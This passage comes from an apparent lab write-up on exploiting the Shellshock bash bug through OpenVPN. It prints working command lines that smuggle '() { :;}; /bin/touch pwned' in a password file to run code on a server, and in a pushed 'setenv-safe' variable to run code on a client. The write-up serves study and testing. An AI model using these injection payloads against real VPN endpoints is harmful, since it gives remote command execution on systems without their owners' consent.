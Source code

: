 ```shell
$ openvpn --config vpn-cli.conf --auth-user-pass evil-cred --pull >/dev/null   # byexample: +stop-on-silence +timeout=5
<...>

$ cat evil-cred
foo
() { :;}; /bin/touch pwned
```



And *presto*, the client has remote execution in the server.

But, only in the password.... Why?

The runes need to be in the password, because it is not *remapped*.

OpenVPN remaps the values of the env variables allowing a very reduced
set of symbols; the password is not affected, thanks God!

It could be in the username too as starting OpenVPN 2.0.1 it is not
remapped any more when it is passed to
``OPENVPN_PLUGIN_AUTH_USER_PASS_VERIFY`` plugin.

If this is vulnerable or not is another story.

### Push and Pull

Now the roles are inverted here.

In this case the server will set up a trap to get remote execution
on the client side.

For this, it pushes a environment variable to the client with the
magic runes:

```shell
$ openvpn --config vpn-srv.conf --push 'setenv-safe Z "() { :;}; /bin/touch pwned"' &
<...>
```

The client needs to *pull* the variables and execute some external script.

I chose ``--up`` but other should work

```shell
$ openvpn --config vpn-cli.conf --up env.sh --script-security 2 --pull   # byexample: +stop-on-silence +timeout=5
<...>

$ [ -e pwned ] && echo "you've been pwned"
you've been pwned
```



The ``setenv-safe`` sets an environment variable with a safe name (prefixed
with ``OPENVPN``) but the trick is not in the name but in its content.

The client will execute a shell script (needs at least ``--script-security 2``)
and the malicious env var will be pushed to the client, executed and exploited.
